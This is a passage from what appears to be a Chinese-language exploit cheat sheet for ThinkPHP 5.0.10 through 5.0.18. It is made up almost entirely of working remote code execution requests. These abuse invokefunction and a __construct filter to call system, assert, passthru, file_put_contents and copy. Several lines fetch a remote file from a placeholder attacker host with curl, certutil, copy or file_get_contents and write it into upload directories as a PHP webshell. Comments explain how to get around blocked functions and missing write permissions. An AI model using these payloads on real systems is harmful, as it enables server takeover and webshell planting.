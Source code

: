 ## 5.2 thinkphp 5.0.10

```plain
(post)public/index.php?s=index/index/index
(data)s=whoami&_method=__construct&method&filter[]=system 
```

## 5.3 thinkphp 5.0.11

 

```plain
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php
```

## 5.4 thinkphp 5.0.14

```bash
eval（''）和assert（''）被拦截，命令函数被禁止
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo();
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js")));
 
php7.2
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>写进去发现转义了尖括号
通过copy函数
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php
```



## 5.5 thinkphp 5.0.18

 

```bash
windows
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo()
 
使用certutil
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php
 
由于根目录没写权限，所以写到uploads
```
